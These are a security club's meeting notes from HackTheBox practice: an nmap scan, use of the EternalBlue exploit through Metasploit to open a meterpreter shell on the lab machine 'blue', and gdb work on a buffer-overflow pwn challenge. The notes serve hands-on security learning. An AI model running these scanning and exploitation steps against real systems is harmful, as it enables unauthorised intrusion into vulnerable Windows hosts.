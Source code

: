 # March 3 2021

Participants
- Reid Hurlburt
- Brennan
- Grace K
- Stephen Cole

Activities
- Did the `blue` machine from HackTheBox
- Took a look at the basics behind buffer overflows in C at `repo.zenk-security.com`
- Tried the pwn challenged `reg` from Hack the Box's retired pwn challenges
- Took a look at `The_secret_of_a_queen`
- Took a look at `canvas`

# blue
Start with an `nmap` scan
	sudo nmap -sS -sC -sV -top-ports 100 10.10.10.40 -vv
- `-vv` for double-verbose

Results come back we see that there is an smb result.

Using `exploit-db.com` we check for windows 7 SMB exploits

We see that the box is called `blue` and there's an exploit called `eternal blue`...
But also, `eternal blue` is an eploit to execute code on Windows 7 servers, so it's probably what we want.

Then, using metasploit through `msfconsle`, search for Windows 7 SMB exploits.
There's a whole bunch.
We use exploit 2

Set the host to be our address. Use `ip a` to find our ip.
`>  set LHOST our_ip`
`> exploit`

This opens a `meterpreter` shell, but at least we're on their system.
Now we need to try to get access to a specific user.

The goal is to get the `user.txt` and the `root.txt` files, you need to be those users to get those files.

# Reg

Get the zip folder from our github repo /writeups/pwnreg.zip
`> unzip pwnreg.zip` gives us an executable called `reg`.
Running it asks for a user prompt. We know that this a pwn challenge so giving it a bunch of 
A's gives us a segfault (like we expect it to).
Using gdb to debug:
	(gdb) run
	(gdb) ^C
	(gdb) x/5i $pc-6
This series of commands will let us print 5 instructions starting from the program counter.

`info frame` can also help to show what's in your current stack frame
